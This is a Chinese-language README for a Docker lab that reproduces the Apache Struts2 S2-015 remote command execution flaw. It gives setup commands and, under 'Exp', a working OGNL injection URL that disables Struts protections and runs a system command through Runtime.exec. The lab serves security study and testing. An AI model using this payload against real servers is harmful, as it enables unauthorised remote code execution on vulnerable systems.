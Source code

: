 ## Struts2 S2-015 漏洞环境

### 漏洞信息

 * [S2-015 公告](http://struts.apache.org/docs/s2-015.html)
 
参考 [http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_struts2_s2-015
 ```

2. 启动环境

 ```
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-015
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Exp

命令执行

```
/${%23context['xwork.MethodAccessor.denyMethodExecution']=false,%23f=%23_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),%23f.setAccessible(true),%23f.set(%23_memberAccess,true),@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())}.action
```

![](s2-015-1.png)

